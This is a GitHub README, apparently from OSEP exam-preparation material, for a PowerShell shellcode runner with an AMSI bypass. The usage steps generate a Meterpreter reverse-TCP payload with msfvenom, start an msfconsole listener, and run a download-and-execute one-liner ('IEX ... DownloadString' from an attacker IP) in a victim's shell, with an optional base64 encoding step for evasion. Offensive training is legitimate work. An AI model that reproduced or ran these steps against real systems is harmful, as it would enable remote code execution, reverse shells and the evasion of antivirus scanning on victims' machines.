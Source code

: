 # Name
Powershell ShellCode Runner with AMSI Bypass

## Usage
```
Change Line 1 in runall.ps1 to Kali's IP

Host Python Webserver on Kali 

Generate payload & put in line 44 of shellcoderunner.ps1
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell

Start Msfconsole listener
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"

In victim's cmd shell
    powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

OR encoded powershell command
    IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt 
    python b64encode.py to_encode.txt 
```

## Source
https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI
